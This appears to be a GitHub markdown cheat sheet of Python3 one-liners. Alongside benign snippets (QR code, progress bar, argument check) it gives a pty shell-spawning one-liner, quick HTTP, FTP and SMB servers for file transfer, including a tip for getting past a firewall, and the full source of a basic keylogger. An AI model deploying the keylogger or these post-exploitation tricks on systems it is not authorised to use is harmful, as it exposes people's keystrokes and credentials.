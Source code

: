 # Python3

**[Back to Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

### One liners and quick scripts

* to spawn a shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
* webservers: `python3 -m http.server 8080`
* if webserver is picked up by the firewall use ftp server: `python3 -m pyftpdlib -p 21 --write` and if you don't have it get it first with: `pip3 install pyftpdlib` and to log in just use the IP address of your ftp server: `ftp <ftp server IP>`

#### QRCode generator (Python3)

```
import qrcode

input_data = "https://google.com"
qr = qrcode.QRCode(version=1, box_size=10, border=5)
qr.add_data(input_data)
qr.make(fit=True)
img = qr.make_image(fill='black', back_color='white')
img.save('qrcode001.png')
```

#### progress bar (Python3)

```
for i in range(0, 51):
    time.sleep(0.1)
    sys.stdout.write("{} [{}{}]\r".format(i, '#' * i, "." * (50 - i)))
    sys.stdout.flush()
sys.stdout.write("\n")

```

#### printing and checking a usage form and switches (Python3)

```
if len(sys.argv) == 1:
    print("USAGE: python3 the_sys_module.py <code name>")
    print("No arguments, exiting...")
    sys.exit(9)
if sys.argv[1] == "tellmemore":
    print("Code name accepted..., exiting with exit code 0.")
else:
    print("Wrong code name, exiting with exit code 3.")
```
#### keylogger (basic)

```
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
#### Python3 FTP Server

* Simple to use: `python3 -m pyftpdlib` and just make sure you have pyftpdlib installed with pip3.

#### SMB Server - Impacket

* `mbserver.py SPITFIRE ./`
